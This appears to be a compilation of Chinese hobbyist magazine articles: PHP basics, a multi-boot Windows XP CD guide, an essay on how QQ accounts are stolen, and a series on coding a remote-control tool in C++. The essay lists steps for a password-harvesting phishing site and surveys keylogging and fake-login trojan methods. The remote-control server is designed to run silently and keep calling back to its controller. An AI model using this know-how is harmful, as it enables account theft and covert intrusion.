除了注释之外，一门语言必不可少的就是变量了。从 JavaScript、PHP 等弱类型语言到 C/C++/Java/C# 等强类型语言，变量都是无处不在的。既然提到了变量，我们就不得不提到数据类型了。虽然说 PHP 是弱类型语言，不需要大家去过多地为变量的类型来操心，不过，了解 PHP 的数据类型却是很有必要的。PHP 中有四种类型分类，四种类型下面又分成很多类型。PHP 支持的类型如下：

## 一、标量类型：

- 1. `boolean`（布尔型，只有两个值，true 或 false）。
- 2. `integer`（整型，存放整数）。
- 3. `float/double`（浮点型，float 和 double 在其他语言中存在精度差异，但在 php 中基本不区分）。
- 4. `string`（字符串类型，php 中字符串长度主要受服务器内存限制）。

## 二、复合类型：

- 1. `array`（数组，创建数组可以用 `array()`）。
- 2. `object`（对象，可以通过 `new` 关键字创建）。

## 三、特殊类型：

- 1. `resource`（资源，用来存放句柄等）。
- 2. `NULL`（表示空值）。

## 四、伪类型：

（伪类型严格地说不算是数据类型，仅仅是为了增加代码的可读性而添加的，主要用于函数的形式参数声明）：

- 1. `mixed`（说明一个参数可以接受多种不同的数据类型）。
- 2. `number`（说明一个参数可以是 integer 或者 float 类型）。
- 3. `callback`（说明一个参数可以是用户的自定义函数）。

本来还有一个变量需要讲，不过上一章中我做了一些简单的例子，相信大家都记得我们上一章中做的演示，这里就不多说了。变量的定义大家可以完全不用考虑数据类型的问题，数据类型这块大家只要有个概念就可以了。但是，伪类型对于我们的开发就很有用了。这个大家用心记一下，以后会帮到大家的。这里我就不写示例了，以后用到会慢慢说。

## [3] 常量

那么，除了变量，我们可能还需要一些常量来存放我们常用的一些值，这里我们就来说一下常量的定义。现在 php 的版本升级很快，如果大家用的 php 5.3.0 以上版本，则有两种定义方式：

- 1. 使用 `define()` 函数来定义。
- 2. 使用 `const` 关键字来定义。

这里需要给大家贴一点代码，因为 define() 定义常量很有意思，我们在一个 php 页面写如下代码：

```php
<?php
define('GREETING', 'Hello world');
echo GREETING;
?>
```

这里大家访问以后会输出“Hello world.”。在上面的代码中，大家会发现很有意思的一点，我们在定义常量的时候传进去的是一个字符串，而引用的时候是直接写的字符串里面的内容。

这个很容易出错，尤其对于学过 C/C++ 的 X 子们是很容易混淆的。

除了我们可以自定义 ID 以外，PHP 还提供给我们一些非常有意思的常量，这里我给大家列一下：

- `__LINE__`（可以显示文件中的当前行号）。
- `__FILE__`（可以显示完整路径和文件名）。
- `__DIR__`（可以显示文件所在的目录）。
- `__FUNCTION__`（可以显示当前函数的名称）。
- `__CLASS__`（显示当前类名）。
- `__METHOD__`（显示当前方法名）。
- `__NAMESPACE__`（显示当前命名空间的名称）。

上面这些常量都非常有意思，平时感觉用处不大，不过既然说起常量了，我也就给大家提一下。

## 【4】表达式

接下来我们要说的是所有语言中也必然存在并且非常重要的一个名词，就是表达式。在 PHP 中，几乎所写的东西都是表达式。这个呢，因为表达式的概念很广，任何有值的东西都可以称之为表达式。那么，最简单的表达式就是变量和常量，稍微复杂一点点的表达式也就是我们的函数。因为表达式这个词含义非常广泛，这个概念理解起来不困难，但是要举出一个让大家印象深刻的例子还是比较困难的，所以这里我就不给例子了。

## 【5】运算符

运算符这里，我就要花点篇幅来说。因为运算符这个是很重要的，在数学中，我们最常用的运算符就是加减乘除，但是在程序中，我们的运算符就多了很多了。总共有 12 种运算符，为了节省篇幅，我这里就不给运算符分类了，等会我会给大家一个运算符优先级表，里面会列出运算符。说起运算符优先级，这个听起来很难，但是实际上并没有多高深。现在大家都有小学文凭了，那么都知道数学中的一个很简单的规则：先加减，后乘除，有小括号要先算小括号里面的。其实这个就揭示着数学中的运算符优先级，从上面几句话可以看出，在数学中，优先级从高到低的排列依次是小括号 > 乘除号 > 加减号。

在程序中，这个规则依然适用，但是计算机中有更多的运算符；所以了解运算符的优先级，可以在很多时候避免出现难以调试的逻辑错误。举个例子，我们要计算 4 加 5 的和乘以 9，写成表达式也就是“(4+5)*9”，但是如果不小心写成了“4+5*9”，就会出现错误的结果。这个表达式大家现在可能一眼就能看出错误，但是试想，如果这行代码夹杂在千万行代码中，调试起来就很蛋疼了。下面就给大家列出运算符从高到低的优先级列表：

| 优先级 | 运算符 |
|---|---|
| 2 | `[]` |
| 3 | `++ --` |
| 4 | `(int) (float) (string) (array) (object) (bool) @` |
| 5 | `instanceof` |
| 6 | `!` |
| 7 | `* / %` |
| 8 | `+ -` |
| 9 | `<< >>` |
| 10 | `< <= > >= <>` |
| 11 | `== != === !==` |
| 12 | `&` |
| 13 | `^` |
| 14 | `\|` |
| 15 | `&&` |
| 16 | `\|\|` |
| 17 | `? :` |
| 18 | `= += -= *= /= .= %= &= \|= ^= <<= >>=` |
| 19 | `and` |
| 20 | `xor` |
| 21 | `or` |
| 22 | `...` |

这个表有些难背，不过如果大家不确定优先级的问题，可以通过使用小括号来提高某表达式的优先级，以达到我们所要的运算效果。

## 【6】控制结构

控制结构这个词也是看着吓人，其实也没什么难的。举个最简单的例子，相信现在的 X 子们都玩过游戏，我们就从游戏来说起。我们知道，控制游戏人物的时候，按方向键 ←，人物会向左走；按方向键 →，人物会向右走。那么，游戏程序员是如何知道用户会按哪个键？很明显不知道，所以用了控制结构来进行判断：如果按下左箭头怎么走，右箭头怎么走……这些都是做了相应的判断处理的，而判断，就是我们的控制结构。

那么在控制结构这块，我们接触的最多的其实也就是 TRUE 或者 FALSE，只是这两个值并不是直接出现的，而是通过表达式来“表达”的。好了，废话不多说，控制结构中最典型的判断就是 if 语句：

| 运算符示例 |
|---|
| `clone, new` |

```php
if (表达式) {
    // ...
} elseif (表达式) {

} else {

}
```

除了上面这种，现在 PHP 还有一种新的写法：

```php
if (表达式):
elseif (表达式):
else:
endif;
```

这就是最基本的 if 语句。执行时先判断 if 后面的表达式，如果为真，则执行 if 后面的语句块；如果为假，则继续判断 elseif 后面的表达式，如果为真，同样执行 elseif 后面的语句块；为假，则继续判断其他的 elseif 块；如果所有条件都不为真，则执行 else 后面的语句块。只要程序进入任何一个语句块，就不会再执行其他的语句块。

除了 if 可以分支，还有一种语句也可以实现，那便是 switch，语法如下：

```php
switch (表达式) {
    case 常量:
        break;
    default:
        break;
}
```

执行的时候，就判断表达式和 case 后面的常量是否相等，如果相等，就执行该 case 后面的代码；如果不相等，则继续判断下一个 case；如果与所有 case 后面的常量都不相等，那么就执行 default 后面的代码。其中，case 的数量可以随意，但不能重复。default 也可有可无。case 块最后一句代码是 break，这一句也可有可无。

可有可无，但是如果没有，匹配到符合条件的常量后，在该 case 后面的所有代码都会执行，包括在该 case 后面的其他 case 块中的代码。这里看着有些绕口，这里我给大家一个示例：

```php
$a = 1;
switch ($a) {
    case 1:
        echo '1';
    case 2:
        echo '2';
    case 3:
        echo '3';
    default:
        echo '4';
}
```

上面的代码运行结果是输出 1234，而不是 1，这样大家就能很明白了。

在控制结构中，除了判断之外，还有一个重点就是循环了。如果一段代码需要被执行 n 次，那么我们不可能复制很多遍同样的代码，那么就要做循环了。循环分为以下几种：while、do-while、for、foreach。下面给大家列出几种循环的语法：

```php
1. while
while (表达式) {
}

2. do-while
do {
} while (表达式);

3. for
for (表达式1; 表达式2; 表达式3) {
}

4. foreach
foreach (数组或集合 as 变量) {
}
```

## 执行规则：

- while 循环首先判断表达式的值是否为真，如果为真则执行大括号内的代码，执行完后再判断；如果表达式还为真，则再执行循环体，一直执行到表达式的值为假，然后跳出循环。
- do-while 循环是先执行一次循环体，然后判断表达式是否为真，如果为真，则再执行循环体，直到表达式为假跳出循环。
- for 循环在开始时无条件执行表达式 1，然后判断表达式 2 是否为真，如果为真，执行循环体；循环体执行完后，执行表达式 3，然后再判断表达式 2 是否为真，如果为真，执行循环体，再执行表达式 3，直到表达式 2 为假跳出循环。
- foreach 循环会将数组或集合中的每个元素放到后面的变量中，然后在循环体中可以引用该变量，每次循环该变量都代表不同的元素，直到该数组或集合中的元素被遍历完。

PS：这里 while 和 do-while 中，循环体内一定要想办法让表达式的值可能变为假，否则进入死循环就访问不到结果了。

那么，除了这些之外，还有很多的基本语法，我这里先不给大家全部写完了，以后我会在文章中慢慢提及。本月的内容比较枯燥，大家尽量耐着性子看吧，工欲善其事，必先利其器，这些都看不完，那学程序也就没法去学了。好了，本章的内容就到这里，我们下一章就开始写一些大家感兴趣的东西。

## php实战教程（3）

## ——传递（网页间的数据传递）

影月

那么，本章我们开始学习网页间数据的传递。相信大家都见过，我们在注册的时候，填入正确的注册信息，然后点了注册，就会跳转到另外一个页面显示注册成功。以后我们再到这个网站就可以用注册的账号登录，这几乎已经成为大家的一个潜意识：只要注册了，就可以登录。不过在大家这个潜意识的影响下，很多人其实并没有想过一个注册的过程中究竟发生了怎样的一个过程。

首先，注册表单会将我们的数据提交到服务器，然后会由动态网页脚本将注册信息存放到数据库。下次登录的时候，网页从数据库查询是否有这个用户并且验证密码，如果验证成功，那么就显示登录成功。这里面用到的最基本的技术就是表单的数据传递和数据库技术。不过现在随着技术的不断更新，更多的网站都是使用 AJAX 技术来实现注册、登录等等。

不过这里我们还没有学习数据库技术。我们在表单传递数据之后，肯定没法对数据库进行操作，所以我们这里就把表单传送到第二个页面进行显示。相信学过 HTML 的父子都知道，我们在写 form 标签的时候，要指定两个属性，一个是 method 属性，另一个是 action 属性。大家看我的 index 页面，里面没有任何的 PHP 脚本，就是一个纯 HTML 页面。index.php 是模拟的一个注册页面，点了以后，我们要把数据传递到 post.php。大家之前如果只是学习了 HTML 技术的话，可能会发现这两个属性似乎没什么用，不过在动态页面中，这就很重要了。

action 属性指定的是我们要提交数据的目标，而 method 属性指定的是提交数据的方式。这里我在示例中给大家做了两个演示，一个 post，一个 get。在使用 get 方法的时候，填入数据然后传递，就会发现地址栏变成了很长的一串，而我们填入的数据原原本本地陈列到了地址栏上。这种方式只能传递一些简单的短小数据，因为 get 方法会更改地址栏，而很多浏览器对地址栏文字的长度是有限制的，所以 Get 方法尽可能不要用于传输重要数据。post 方法比较安全，通常我们比较重要的数据都是通过 post 来传递的。

好了，话说回来，我们就要开始写 post 页面和 get 页面。这两个页面里面要做的是把用户填入的信息显示出来。第一步，肯定就是要先获取到用户填入的信息。注意这里如果是用的 Post 方法，那么在目标页面就要用 `$_POST["INPUT标签的name"]` 来获取。比如说我这里要获取到用户名，我这里就写一个 `$username = $_POST["username"];`，然后用 echo 来输出即可。

如果用的是 GET 方法，同样也可以用 `$_GET["input标签的name"]` 来获取用户填入的值。那么，除了这两种，还有什么呢？如果说很多网页都要使用的值的话，也可以有很多方式。第一呢，就是 session，session 在英文中的意思就是会话，每个用户在访问浏览器的时候，都会创建一个唯一标识，只要浏览器窗口没有关闭，这个 session 就会一直存在。这个一般是用来存放用户的状态信息等。使用的时候，直接用 `$_SESSION["session名"] = value`，这样就会创建一个值，以后要访问或者修改的时候直接引用即可，很方便，很实惠。不过每个页面在使用 session 之前，必须调用 `session_start()` 函数来初始化 session，否则就会报错。

除此之外，还有一种方法也可以存放数据，就是大名鼎鼎的 cookies。cookies 在英文中的意思是小甜饼。用这个很方便，而且对服务器的损耗不大，毕竟 session 是存放在服务端，会占用服务器内存；而 cookies 是以文件的形式存放在客户端。但是，小甜饼吃多了也会有蛀牙的，cookies 这东西说起来并不安全，毕竟是以文件的形式而存在，可以很轻松地获取到 cookies 的内容。

cookies 的用法上，这里说一下：先调用 setcookie 函数来发送一个 cookie 到客户端，然后要使用的时候可以用 `$_COOKIE["cookie名"]` 来引用。这里我说一下 setcookie 的参数，在官方帮助中，函数原型如下：

```js
bool setCookie ( string $name [, string $value [, int $expire = 0 [, string $path [, string $domain [, bool $secure = false [, bool $httponly = false ]]]]]] )
```

大家可以发现 setcookie 的参数很多，第一个参数是 cookie 名，第二个是 cookie 值，第三个是 cookie 的有效期，第四个是 cookies 的服务器路径，第五个是设置 cookie 的域名，第六个是设置是否用安全的 HTTPS 连接来传输 cookie，最后一个是设置只能通过 HTTP 协议来访问 cookie。那么，除了这些的话，还有一个比较重要的数据来源就是数据库了。

很多人一开始对数据库的重视程度并不够，其实数据库也是非常重要的一门技术，只是在个人开发的时候，很多人不愿意去用，因为数据库的使用往往意味着数据库服务器。不过，在开发网站的时候，这是必然要学习的。在本章中，我不打算继续写数据库的内容，所以本章内容比较短。在下一章，我们开始学习数据库方面的知识，敬请期待。

## 教大家DIY自己的多重启动光盘

影月

大家好，今天给大家送上一份简单点的教程。当大家用着形形色色的系统安装光盘，是不是很羡慕呢？那么今天我们就来自己 DIY 一个属于自己的多重启动光盘。

首先，我们需要的工具呢，是一个 Windows XP 的安装光盘镜像、EasyBoot、UltraEdit、UltraISO、Virtual PC（或其他虚拟机）、Windows XP 的启动软盘组。因为镜像比较大，我这里就不给大家了，百度一下会出来很多的，EasyBoot 和启动软盘组我会打包给大家。

好了，废话不多说，我们首先来集成我们的 Windows XP。首先要说下，EasyBoot 这个软件安装目录下有一个叫做 Disk1 的目录（以后就简称光盘根目录），这个目录下面就相当于光盘的根目录，iso 是用来存放生成好的镜像文件。

安装完成后，Disk1 文件夹下面还有一个叫做 ezboot 的文件夹，里面是 EasyBoot 给我们提供的一些启动文件，我们这里并不需要，所以删了。还有就是大家可能发现 EasyBoot 的启动文件存放路径必须是 ezboot，有的人不喜欢，想要修改怎么办呢？

如果想要修改，可以到注册表的 `KEY_CURRENT_USER\Software\EasyBoot Systems\EasyBoot\3.0\ImageFileDir` 进行修改。完成之后，我们新建一个文件夹 WXP2，注意这个文件夹名不能超过 4 个字符，不能是中文，否则后面就做不了了。这个文件夹用来存放启动组文件。再新建一个存放启动文件的 `[BOOT]` 文件夹，还有存放安装文件的 Install 文件夹。

好了，现在我们把 Windows XP 软盘启动组找出来，这个虽然是 exe 文件，不过可以通过压缩软件来解压缩。然后会解压出 6 个 cdboot 开头的 img 文件，还有两个 exe 文件，两个 exe 文件没用，删除。然后把 6 个 img 文件解压到同一个文件夹。接下来我们把 Windows XP 的镜像解压出来，我这里是用的 Windows XP SP2 原版安装光盘（592MB）。

解压后，把 WIN51、WIN51IP、WIN51IP.SP2 三个文件复制到光盘根目录下，然后再复制一份到 Install 下，同时在 Install 下面再新建一个文件夹 WXP2，接下来把 Windows XP 安装光盘中的全部文件复制到 `Install\WXP2` 下面。

注意这里有一个文件夹 `[BOOT]` 在 UltraISO 里面是看不到的，但是解压出来就会看到了。这个 `[BOOT]` 文件夹可以不用复制过去，因为我们只需要里面的 img 文件。这个名叫 Bootable_NoEmulation.img 的文件其实就是光盘的引导文件，不要也可以，因为引导文件也可以用 UltraISO 来提取，这个大家随意吧。

把这个文件更名为 WXP2.img，这个文件大家也可以随便命名，然后复制到我们自己建立的 `[BOOT]` 文件夹。这样呢，我们的目录结构就完成了。不过，集成的过程并没有完成，还有一些文件是需要修改的，而且还需要用 EasyBoot 来设计我们的光盘界面呢！

我们现在打开 EasyBoot，EasyBoot 是一个很简单的软件，打开之后默认就新建了一个菜单文件。这时候虽然大家发现菜单文件名那里是空的，但是没有关系，我们可以点一下保存或者另存为，这样就可以看到了。然后看到菜单类型这里，我们不用管它。下面有个等待时间的框，这个是我们进入光盘启动界面后，没有操作的情况下倒数秒；如果等待时间后用户还没有操作，就会按照默认的操作来执行。后面有一个按钮 P，是用来设置密码的，很少使用。

我们这里要修改的只是显示 LOGO 和背景图像。LOGO 是进入菜单之前的图片，而背景图片这个大家应该很明白的，真的男人，不解释！！！这里还有一个事情要说下，就是图像的问题；EasyBoot 在光盘启动界面背景和 LOGO 显示的图片默认必须是 640x480 大小的 256 色图像文件，并且不能压缩，那是为了保证在低端电脑上的兼容性。不过这个现在已经没必要了，我们在选项中进行修改。我这里用了 800×600 分辨率的图片，并且是 16 位色的，大家可以根据喜好修改。咳咳，这里我从我比较喜欢的暗黑壁纸里面随便拖了一张，然后扔到我们自己建立的 `[BOOT]` 文件夹里。注意在 EasyBoot 里面要用到的文件都必须放进这个文件夹，否则会找不到的。

## 月下狐笔

点了保存后，我们发现 EasyBoot 的屏幕预览窗口已经贴上了我们的图片。光有图片，没有选项可不行。现在我们切换到菜单条选项卡，先点击添加，然后屏幕预览那里就出现了一个非常难看的蓝条，这个就是我们的菜单条。很难看，不过不用急，先写上菜单文本：“安装 Windows XP SP2 官方纯净版”，然后把高亮属性和正常属性的颜色设置一下……好，那么菜单就是这样做出来的。

现在有了菜单项，我们只要把文件修改好，然后就可以开始尝试安装了。用 UltraEdit 打开我们刚刚复制的 WXP2.img，查找 I386，找到之后把 I386 替换为 WXP2……最后大家要把光盘根目录下的 WXP2 下面的 TXTSETUP.SI_ 文件删除，否则就会出现无法找到最终用户许可协议而无法安装的问题。

接下来我们要集成的就是 WinPE，WinPE 的集成就很简单了。下载一个 Windows PE 的镜像文件，然后用 UltraISO 提取镜像引导文件，然后把这个 ISO 解压出来，并且把所有文件和文件夹拷贝到光盘根目录，再把提取到的镜像引导文件拷到 `[BOOT]` 文件夹，添加好相应的菜单项就 OK 了。

至于还有其他的分区魔术师和 Ghost 之类的，大家可以自己寻找引导文件和镜像，也可以集成多个不同的操作系统，这个完全看个人喜好，我这里就不一一解说了。最后这里我再说两个指令：

- 第一个用于使计算机从硬盘启动：`boot 80`
- 第二个用于使计算机重新启动：`reboot`

这篇教程就到这里吧……大家只要把相应的文件下载下来替换进去即可。


## 浅谈盗Q的原理

大家好，在论坛发现 X 子们想知道盗 Q 的原理，这里我依照我的理解，来给大家说一下……好了，首先，我们先来看看我们比较常见的几种盗 Q 方式。

首先，给大家说说要做这样的网站，如果排版比较熟悉的人，估计三天左右就可以完成了。记得那天我去闲逛的时候，让我感慨最深的还是做工之粗糙……这里大家可以到 QQ 官网上看下，其实官网做的技术含量比较高，表单验证都是通过 ajax 来做的。

## 一、钓鱼

第一种呢就是钓鱼，相信现在上 QQ 游戏还在出现很多很多的虚假中奖信息。常见格式就是：您中了 XXX 奖，中奖验证码 XXXX，请到 www.xxxx.com。然后当访问到这个网站的时候，就会看到一个足以以假乱真的网站，然后登录框、中奖者列表一应俱全。

对于钓鱼网站来说，技术含量并不高，要做的只是投入时间。毕竟做过网站开发的人都知道，页面排版还是比较费时间的……第二天我再访问的时候那个钓鱼网站居然挂掉了……不过我还是给大家说下我在这几个钓鱼网站访问的感受：首先，第一个，给我的感觉很粗糙。第二个，代码极其不严谨。第三个，页面效果很花俏。

- 模仿 QQ 官方网站排版出网站页面。
- 使用 JavaScript 加工页面特效以及表单验证。
- 使用动态网站语言写登录逻辑（将用户输入的用户名密码写入数据库或文件）。
- 寻找虚拟主机发布网站。
- 选择一个山寨的网址。
- 到各个地方发布虚假信息。

总的来说，这个应该算是最简单的一种盗 Q 方式。不过随着现在网民的安全意识逐渐提高，现在会变成“鱼”的人已经越来越少了。

## 二、盗号木马

那么，盗号木马这块，在编写的时候，可以想到以下几种情况。

- 欺骗登录。
- 键盘记录。
- 读取内存。
- 截取封包。

但是，大家要知道一点，现在腾讯以及各类安全软件对于 QQ 的防护都是比较严格的。QQ 本身的安全也做得非常好。首先，我们一个一个来从程序上的角度对上面几种方式进行解析。

首先，说到欺骗登录，应该算是现在盗号木马的实现中最简单的了。但是做好欺骗登录的难度也绝对比钓鱼大得多。大家可以打开 QQ2011 的登录界面……简单地绘制窗体，然后想办法把你的程序释放到 QQ，然后修改快捷方式，让用户运行 QQ 的时候运行的是你开发的程序，大致就完成了。

PS：如果有人能够用一个极为粗糙的界面做登录界面，然后还能让用户以为腾讯更新了的话，那这种高人我们只能仰望了……

其次，从键盘记录的角度来说，大家首先想到的是做按键消息捕获。不过打开 Spy++ 测试之后，我们会发现，在密码框输入密码时我们根本没办法捕获到任何信息……腾讯已经放弃了强大的驱动保护，现在使用的保护已经是低级钩子来进行防护……GetWindowText 是无效的。

……写内核可以直接通过 IRP 获取键盘的硬编码，就可以截取到键盘记录了。

再次，我们从内存的角度来说，当前我们输入了密码，那么密码肯定是保存在内存中的。但是，我们使用 CE 去扫描之后，肯定是怎么都不会找到密码明文的……

最后，截取封包。一句话，如果有玩加密的高手可以破解掉腾讯加密过的封包的话，可以试试。我自认为我玩加密的功底还没那么厚……

## 三、社会工程学

一般这个方法用的人比较少，不过也算是有点点用。比如说拿到某个网站的后台权限，然后根据记录的密码 MD5，反查询出密码明文，最后通过这个密码和用户资料找出信息，生成字典以后来进行爆破。这些的话，一般要比较有经验的才能做得比较准。

## 四、收信文件

在网上也有一些人，自己不想去盗 QQ，而去通过 Google 的 inurl 搜索指令来搜索盗号木马的默认收信文件，不过这种方法也已经很少用了……这个是最简单的盗 Q 方式，但也是效率最低的方式。

好了，那么这是我见过的比较多的方式。如果大家有什么新的思路，可以一起讨论……请大家支持我，支持月下孤笔，谢谢！

## 从小小的实现——一个远程（2）

## ——服务端架构

*影月*

大家好，在上一章中，我们搭建了客户端的架构，这一章我们要做的就是搭建服务端的架构。在文章开始，我先说一下，应编辑部要求，在以后的稿子中，我的写作风格会做一定的修改，文章中将会很少出现代码示例，而更多地以介绍思路为主，重要代码才会贴出来……

月下孤笔

者的意思，我们作者夹在中间也挺困难的。好了，多余的话就到这里，我们先来整理一下服务端开发的思路。

既然作为一款远控，那么我们还是模仿一下其他的远控，运行的时候要悄无声息。在 Windows 下面编程，多数人比较熟悉的是使用 MFC 框架来完成。要悄无声息，可以直接通过代码让程序不生成窗体，而且 MFC 为我们封装了很多很方便的类，编写起来也很简单。但是，封装的结果有副作用，第一就是效率低下，第二就是生成的文件较大……这里大家可以测试一下，VS2008 下建立一个 MFC 的基于对话框的应用程序，使用 Unicode 库，并且在静态库中使用 MFC……然后直接在 Release 下生成，生成的文件大小就有 1.65MB。而刚刚生成的一个空的 Win32 项目编译后，随便设置一下也不过是 45KB，还没有经过优化。这个差距，相信大家很明白对于一个服务端来说意味着什么，更何况我们在后期还要进一步地进行优化。

好了，这个差距相信是显而易见的，那么，现在我们肯定也要选择 Win32 应用程序。

我们这里新建 Win32 的时候要选择空项目，这样我们可以只添加我们需要的东西而省去很多我们用不到的东西。然后添加一个文件 ServerMain.cpp 来写我们的入口函数，再添加一个头文件 Common.h 来添加我们公共项的引用。然后第一件事情，就是添加公共引用 windows.h 和 tchar.h，然后在 ServerMain 中添加对 Common.h 的引用和入口函数，函数格式如下：

```cpp
int APIENTRY _tWinMain(HINSTANCE hInstance,
                      HINSTANCE hPrevInstance,
                      LPTSTR lpCmdLine,
                      int nCmdShow)
```

小提示：要在 Common.h 中添加 #ifndef 宏来防止文件被重复引用。

接下来我们就开始做我们的服务端架构。首先，我们先整理下服务端的工作流程：

- 尝试连接客户端。
- 连接如果失败，返回 1；如果成功，则继续。
- 等待客户端指令。
- 如果接收到指令，则执行指令。
- 返回 3，继续接收指令。
- 如果客户端断开，则返回 1。

整个服务端的工作流程大致就是这样，表面上看很简单，但是实际上我们要处理的东西非常多。首先，既然要用到 Socket，我们就要初始化套接字，通过 WSAStartup 来初始化。然后构建 SOCKET 实体，然后可以通过 connect 函数来连接。不过大家可能注意到，connect 函数里面第二个参数比较奇怪，这是一个 sockaddr 实体的指针……这里我们在定义的时候并不是定义 sockaddr 的实体，而是定义 sockaddr_in 实体，然后把 sockaddr_in 的实体指针强行转换为 sockaddr。这个大家不用担心有问题，因为 MSDN 上的示例也是这样用的。

初始化完成之后，就可以尝试连接了。connect 函数调用时，如果成功，则会返回 0；如果失败，则会返回 SOCKET_ERROR，这里大家就要做好错误判断，如果出现错误就要跳回重新连接。接下来如果连接成功，就要开始循环接收指令。不过为了识别指令，我们这里还要做一点，就是要封装一个数据包类。这个很重要，如果直接发送字符串的话，我们就要进行字符串截取，这个是很麻烦的，所以我们就要添加一个类专门用来发送数据。类成员的话，我们只需要两个：一个是 int 类型的指令 ID，方便我们识别各种各样的指令；还有一个 wchar_t 的数组，用来存放我们的附加数据。注意这里千万不能定义成指针，否则统计数据包大小的时候会出错。这个数组我们目前就先给 10000 的大小吧。

注意数据包类要在客户端也定义一份，要定义成一样的，否则接收到翻译指令时就要出问题了。

数据包类准备好我们就可以继续了。接下来要考虑的是，我们调用 recv 函数只能接收一次数据，要再次接收的话，就要重新调用，所以我们这里就要使用循环来不断接收。而且作为远控，主动权肯定是要尽量保持自己处于运行状态，肯定不可能自己已关闭。而且这里我们并不知道总共要接收多少次，我们只知道，只有断开连接了，才结束循环并且跳回去尝试重新连接。基于这个，我们可以考虑采用 while 循环。在这个过程中，根据上面的思路，我们就只要考虑一个问题：如果客户端突然断开连接，我们要如何进行处理？服务端又如何知道客户端已经彻底关闭。

这里我们可以先进行一下测试，首先用一个死循环将 recv 函数套住，这样就会不停调用 recv，我们可以根据接收到的数据包来进行判断。接下来我们运行服务端、客户端，然后进入调试模式，可以发现服务端一旦运行到 recv 这里就进入等待模式。然后我们关闭客户端，会发现程序立刻从等待跳回，recv 函数返回 -1，这就说明客户端关闭了。

但是，这仅仅是我们理想状态下的情况，实际情况并非如此。因为 recv 仅仅是接收失败的时候会返回 -1，但是接收失败就一定是因为客户端断开么？很明显，不一定。我们这里没法详细地列举错误，只能在程序中设定一个错误次数的标识，每次出错标识加一。这样等到错误次数达到一定数量，就表示客户端有可能已经关闭或者已经出现了严重错误，导致无法接收指令，这样我们就跳回尝试重新连接。

在上面这个思路中，表面上看没有问题，但是实际上却有一个小小的 bug。逻辑比较好的朋友应该发现了，假设有一种情况，我们设定为出错 5 次就认为断开，跳回重连，但实际上是因为网络不通畅，客户端并没有断开：第一次接收失败，第二次成功，第三次成功，第四次失败……这样下去……

断断续续错误到 5 次，我们同样断开了连接。所以我们这里要做好处理：连续出错 5 次再重新连接。也就是说，我们一旦接收成功，就应该把错误标识归零。这是我在开发中忽然想到的一点，具体代码我打包给大家，文章中就不贴代码了。

做好错误处理之后，我们接着来修改代码。在接收完成之后，我们就要把消息分配到各个小的功能函数，这样我们的代码看起来就比较整洁。这里我写了一个 TranslateData 函数专门用于分发指令。虽然现在还没有东西，但是我们在里面添加一个 switch 语句就可以轻松地分发指令，switch 后面的条件不用说，自然是指令 ID 了。那么我们这个服务端的架构就彻底完成了。

后面我们要做的就是系列功能的填充，大家不用心急。慢慢跟着我走，大家一定会有收获的。

# 小小的实现——一个逻辑（3）

影月

哎哎，我们接着写远控哈。上一章中我们已经添加了一个数据包类 SocketData，但是这个数据包类是我们服务端和客户端都要用的，所以这里我们要把 SocketData.h 和 SocketData.cpp 复制到 Client 并且添加到项目。

好，现在打开我们的 AcceptConnection 函数。大家可以从我的源代码看到我有几行代码写得非常草率，这个主要是为了调试所以随便写了一个变量。这里我说下，我们在接受了服务端连接后，会返回一个 Socket 标识，我们以后发送和接收数据必须依靠这个 socket 标识，所以我们这里一定要将所有的 socket 标识存下来。

不知道大家记不记得，我们之前曾经声明过一个叫做 ServerConnection 的类。这个类里面就有一个 SOCKET 类型的成员。但是，我们始终只能存放一个 Socket 对象，那么我们肯定还是要使用数组。这里呢，因为这个对象我们在任何时候都有可能引用，所以我们把这个作为全局变量来定义。同样添加一个叫做 Common 的头文件。在里面定义一个 ServerConnection* 的代码，这里定义为指针有一个好处，占用内存小，处理比较快。而且，大家都知道，C++ 中的 new 操作符的返回值是一个指针，而不是一个对象。

所以综合考虑，写成 ServerConnection* 的数组比较划算。那么，在接收完成之后，我们要做的，应该是创建一个 ServerConnection 的对象，然后将指针存入我们的 ServerArray 数组中。那么，这样做又会出现问题：我们怎么知道应该把新连接进来的服务端连接存放到哪个元素中？如果存放错误，那么之前连接的服务端连接就可能被覆盖掉，导致我们没法操作，这个属于严重 Bug。这个问题，我们后面再来修正，我们先继续走。

为了方便我们操作窗体，我们最好再定义一个 ClientDlg* 类型的变量 pMainDlg 来存放主窗体的指针。添加完成后，我们来修改代码。在窗体初始化的 OnInitDialog 方法中，我们要对 pMainDlg 进行初始化，把窗体自身的指针赋值给它。（什么？你不知道怎么获得主窗体指针？this 关键字呗。）然后接着来修改我们的 AcceptConnection 函数，之前我们在一开始把主窗体指针传了进来，不过现在因为有全局变量，我们可以不要这个指针了。

接下来，按照常规思路，我们应该是先定义一个 SOCKET 类型的临时变量 tempSock 接收 accept 函数的返回值。然后如果 tempSock 不等于 INVALID_SOCKET，就把这个连接存放到一个 ServerConnection 对象中，然后再把这个对象的指针存放到 ServerArray 数组中。相信大家根据这个思路写出代码就应该很简单了吧？但是，实际上，大家应该注意到一点，我们在这个过程中有可能出现一种情况：就是如果已经有三个服务端连接，但是第二个服务端突然断开。这样呢，我们的接收数据线程应该结束掉。但是如果我们只是根据已使用的最大下标来存放 ServerConnection 对象的话，如果中途有大量的服务端断线，我们就无法回收这些空出的位置。这个也是一个很严重的 Bug。

好了，这两个 Bug 实际上是同一个 Bug，就是一个资源回收的问题。我们可以稍稍分析一下出现的原因，这个问题无非就是因为我们无法知道哪个数组元素可以被赋值，而哪个又正在使用中。这个是个很简单的问题。我们只要把连接数组全部初始化为 NULL，然后写一个函数判断是否为 NULL：如果是，则表示可用；如果否，则表示正在使用。当服务端连接断开时，我们把相对应的对象释放，然后赋值为 NULL，就可以方便下次来连接了。这里我就新添加一个叫做 GetFreeConnection 的函数，返回当前可用的连接。

好了，那么在我们接受了连接以后，我们要不断调用接收。同样的，如果在本线程内不断调用的话，就会出现死循环导致没有响应，所以我们这里就要用多线程，每进来一个用户就创建一个线程。这个是非常占资源的，但是我们初学，就用这种笨办法。以后大家感兴趣可以尝试去找找线程池相关的资料，使用线程池来实现。这里我在 Common.h 添加了一个回调函数 ReceiveDataThreadProc，这个里面我们直接 return 0，现在还不用写代码，等我们后面慢慢写。

月下孤笔

